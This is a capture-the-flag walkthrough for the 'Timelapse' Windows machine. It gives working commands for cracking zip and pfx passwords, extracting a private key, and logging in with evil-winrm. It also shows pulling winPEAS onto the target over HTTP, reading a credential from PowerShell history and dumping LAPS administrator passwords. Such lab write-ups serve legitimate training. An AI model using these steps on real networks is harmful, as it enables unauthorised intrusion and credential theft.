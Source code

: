 # Timelapse

Timelapse is a CTF that lets you take a dive into windows and start getting your hands prepared for powershell. Enough research and you'll get a better understanding of pfx files, LAPS and understanding powershell logs.

## Enumeration

Start off with an nmap scan:

```zsh
nmap -Pn -sC -sV -v <TARGET_IP>
```

![Image](images/1.png)

Here, the SMB port is open, which means there could be some misconfiguration which can be exploited. 

```zsh
smbclient -L 10.10.11.152      
Password for [WORKGROUP\lolboi]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Here, I have listed every SMB share available on the sevrer. Out of all these, only `Shares` has something of value (I checked so you don't have to). You can connect and view the items with `smbclient //<TARGET_IP>/Shares` and le tthe password be empty.

There are 2 directories revealed, `Dev` and `HelpDesk`.

```zsh
smb: \> ls Dev/
  .                                   D        0  Mon Oct 25 23:40:06 2021
  ..                                  D        0  Mon Oct 25 23:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 19:46:42 2021

		6367231 blocks of size 4096. 2466336 blocks available
smb: \> ls HelpDesk/
  .                                   D        0  Mon Oct 25 19:48:42 2021
  ..                                  D        0  Mon Oct 25 19:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 18:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 18:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 18:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 18:57:44 2021

		6367231 blocks of size 4096. 2466336 blocks available
```

These lead to 2 interesting ideas,
1. Target machine has some form of WinRM that we can use to connect (using evil-winrm)
2. Target machine has LAPS on it (Local Administrator Password Solution - Password management for domain connected devices).

Tip: You can download the files in an SMB share with `get <FILENAME>`

## Exploit 

Lets try to unzip `winrm_backup.zip`. It is a password protected zip so we have to run the following command to crack the password and open it.

```zsh
zip2john winrm_backup.zip > hash.txt | john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is revealed to be `supremelegacy`. On extraction, we get a file called `legacyy_dev_auth.pfx`. A pfx file contains the private key and the SSL certificate(public key) and is used to authenticate a user. They are also password-protected. Fortunately, John can crack pfx file passwords with the following command:

```zsh
pfx2john legacyy_dev_auth.pfx > hash.txt 

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is revealed to be `thuglegacy`. Although, you can't just view the private and public keys, you will have to extract them from the pfx (Check out this blog: https://wiki.cac.washington.edu/display/infra/Extracting+Certificate+and+Private+Key+Files+from+a+.pfx+File )

```zsh
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out pub.cert 
```

Open your preferred text editor and remove the excess text in both files.

Lastly, to get a foothold, we can use the following code to log into the machine:

```zsh
evil-winrm -S -c pub.cert -k priv.key -i 10.10.11.152
```

Run `type ../Desktop/user.txt` to get the user flag.

## Priv-Esc

Download winPEAS from here: https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe

Use `python -m http.server <PORT>` to make a http server to transfer the winPEAS executable. You can use `Invoke-WebRequest -Uri http://<IP_ADDR>:<PORT>/winPEASx64.exe -OutFile <FILENAME>` to get the executable onto the target machine with the name of <FILENAME>. Run winPEAS with `./<FILENAME>`.

```zsh
PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

winPEAS shows this Powershell history file, which we can use to see what commands have been run before on the target machine.

```PS
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Here, we can see that the above block of code is used to execute code as the `svc_deploy` (You can log in as svc_deploy but we can do whatever we need using the `-scriptblock {}` parameter)

Run the following commands:

```PS
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /groups}
```

Here you can see that `svc_deploy` is a part of a group called `TIMELAPSE\LAPS_Readers`. Passwords can be exported from LAPS using the command `Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` (Read more information here: https://smarthomepursuits.com/export-laps-passwords-powershell/)

So, your complete command should look like this:

```PS
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

With this, you will get the Administrator account password. You can log into the Administrator account with the following command:

```zsh
evil-winrm -S --user Administrator --password '<PASSWORD>' -i 10.10.11.152
```

You can get the root.txt with the command: `type C:\Users\TRX\Desktop\root.txt`
